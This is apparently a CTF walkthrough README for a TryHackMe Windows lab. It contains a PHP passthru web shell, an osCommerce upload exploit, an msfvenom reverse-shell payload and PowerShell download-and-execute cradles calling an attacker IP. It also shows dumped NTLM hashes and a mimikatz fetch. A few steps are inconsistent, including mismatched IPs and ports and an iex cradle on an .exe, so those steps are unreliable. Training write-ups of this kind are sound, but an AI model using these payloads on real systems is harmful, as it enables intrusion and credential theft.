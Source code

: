 ![image](https://github.com/CTF-Walkthroughs/blueprint-walkthrough/assets/97861439/328bebaf-6fbd-4e8b-84dd-e9c9b60fa206)

# blueprint-walkthrough
This is a CTF walkthrough of the machine blueprint on THM

export IP=10.10.51.155
export myIP=10.13.24.71

**ENUMERATION**

Let's kick things off with a fast nmap scan to get a lay of the land.

`nmap -F $IP`

Nmap scan report for 10.10.85.154
Host is up (0.33s latency).
Not shown: 90 closed tcp ports (conn-refused)
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
443/tcp   open  https
445/tcp   open  microsoft-ds
3306/tcp  open  mysql
8080/tcp  open  http-proxy
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 2.63 seconds

Now we'll do a follow-up scan to get more details about open ports, services, and software versions.

`nmap -p 80,135,443,3306,8080,49152,49153,49154 -sC -sV -A -T4 $IP
`
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-28 23:20 EDT
Stats: 0:01:06 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 96.65% done; ETC: 23:21 (0:00:00 remaining)
Nmap scan report for 10.10.85.154
Host is up (0.25s latency).

PORT      STATE SERVICE  VERSION
80/tcp    open  http     Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-IIS/7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: 404 - File or directory not found.
135/tcp   open  msrpc    Microsoft Windows RPC
443/tcp   open  ssl/http Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
|_http-title: Index of /
|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_ssl-date: TLS randomness does not represent time
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2019-04-11 22:52  oscommerce-2.3.4/
| -     2019-04-11 22:52  oscommerce-2.3.4/catalog/
| -     2019-04-11 22:52  oscommerce-2.3.4/docs/
|_
| http-methods: 
|_  Potentially risky methods: TRACE
3306/tcp  open  mysql    MariaDB (unauthorized)
8080/tcp  open  http     Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
| http-methods: 
|_  Potentially risky methods: TRACE
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2019-04-11 22:52  oscommerce-2.3.4/
| -     2019-04-11 22:52  oscommerce-2.3.4/catalog/
| -     2019-04-11 22:52  oscommerce-2.3.4/docs/
|_
|_http-title: Index of /
49152/tcp open  msrpc    Microsoft Windows RPC
49153/tcp open  msrpc    Microsoft Windows RPC
49154/tcp open  msrpc    Microsoft Windows RPC
Service Info: Hosts: www.example.com, localhost; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_nbstat: NetBIOS name: BLUEPRINT, NetBIOS user: <unknown>, NetBIOS MAC: 027f2be5a1cf (unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 79.26 seconds

Next, let's do a bit of directory busting with gobuster and dirb. We discovered a /catalog/install directory that we can use to install the database and create an admin user.

`oscommerce-2.3.4/catalog/install
`
Now we can upload a simple passthrough to allow in-browser command execution. 
**
EXPLOITATION**

Next. let's create a shell.php file with the following contents for our passthru shell:
`<?php passthru($_GET['cmd']); ?>
`
And we can upload it using the exploit from searchsploit:
'python 43191.py -u http://10.10.51.155:8080/oscommerce-2.3.4 --auth=admin:admin -f shell.php'

**PROOF OF CONCEPT**

We can test our php passthru shell a simple command like 'whoami'.

**Using Metasploit to convert RCE to a fully interactive shell**

First let's create a payload.
`
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.13.24.71 LPORT=7777 -f exe > shell.exe`

`msfconsole`

Now we can let it rip and catch the shell with the web_delivery module.

And BOOM! We have a meterpreter session on our target. We can issue a 'hashdump' command to grab all the user hashes.

msf6 exploit(multi/script/web_delivery) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:549a1bcb88e35dc18c7a0b0168631411:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Lab:1000:aad3b435b51404eeaad3b435b51404ee:30e87bf999828446a1c1209ddde4c450:::
meterpreter >

**Using Crackstation to quickly crack our hash**
googleplus

**ROOT FLAG**
root.txt
THM{ae--------REDACTED-----------ee}


**OPTIONAL ALTERNATIVE METHOD TO CONVERT TO A SHELL**

Nishang Powershell:
1. download Invoke-PowerShellTcp.ps1

2. modify the script to add the command to the end of the script
`
Invoke-PowerShellTcp -Reverse -IPAddress 10.13.24.71 -Port 80`

3. host an http server on port 80

4. Download the file to the target machine and run it:

'powershell iex(new-object net.webclient).downloadstring('http://10.13.24.71:8000/ips88.ps1')'

Now that we have a shell -let's grab the hashed NTLM for user Lab with mimikatz!

download it to my attacker machine and serve it up using python

powershell iex(new-object net.webclient).downloadstring('http://10.13.24.71:8000/mimikatz.exe')


